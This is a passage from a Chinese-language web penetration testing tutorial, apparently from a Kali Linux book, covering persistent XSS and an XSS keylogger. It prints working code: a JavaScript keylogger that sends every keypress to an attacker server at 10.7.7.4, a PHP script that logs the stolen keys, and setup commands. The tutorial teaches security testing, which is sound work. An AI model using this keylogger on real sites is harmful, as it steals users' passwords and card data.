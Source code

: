 将该代码设置为新元素的键，并点击“添加新元素”将显示如下内容：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00178.jpeg)

如前所述，这样的攻击不会改变 Web 服务器上的文件，只有运行恶意脚本的用户才能注意到这些变化。当利用持久性 XSS 时，篡改可能会影响大量用户，因为攻击者不需要逐个地针对每个受害者，这与反射型和基于 DOM 的 XSS 不同。无论哪种方式，这可能会导致用户将敏感信息提供给攻击者，同时认为他们正在提交给一个合法的网站。

# 键盘记录器

利用 XSS 收集用户敏感信息的另一种方法是将浏览器转变为一个键盘记录器，捕获每个按键并将其发送到攻击者控制的服务器。这些按键可能包含用户在页面中输入的敏感信息，如姓名、地址、密码、秘密问题和答案、信用卡信息等，具体取决于受攻击页面的目的。

我们将使用预先安装在 Kali Linux 中的 Apache Web 服务器，以便将按键存储在文件中，以便我们在利用 XSS 后可以检查受攻击应用程序发送的按键。服务器将有两个文件：`klog.php`和`klog.js`。

这是`klog.php`文件的外观：

```
<?php 
  if(!empty($_GET['k'])) { 
    $file = fopen('keys.txt', 'a'); 
    fwrite($file, $_GET['k']); 
    fclose($file); 
  } 
?> 
```

这是`klog.js`文件的外观：

```
var buffer = []; 
var server = 'http://10.7.7.4/klog.php?k=' 
document.onkeypress = function(e) { 
  buffer.push(e.key); 
} 
window.setInterval(function() { 
  if (buffer.length > 0) { 
    var data = encodeURIComponent(buffer); 
    new Image().src = server + data; 
    buffer = []; 
  } 
}, 200); 
```

在这里，`10.7.7.4`是 Kali Linux 机器的地址，所以受害者将把缓冲区发送到该服务器。此外，根据系统的配置，您可能需要在代码中指定的路径中创建`keys.txt`文件。在这个例子中，它是 Web 根目录(`/var/www/html/`)。此外，添加写权限或将所有权设置为 Apache 的用户，以防止 Web 服务器在尝试更新本地文件时出现权限错误：

```
touch /var/www/html/keys.txt
chown www-data /var/www/html/keys.txt
```

这是键盘记录器的最简单版本。更复杂的版本可能包括以下内容：

+   捕获的时间戳
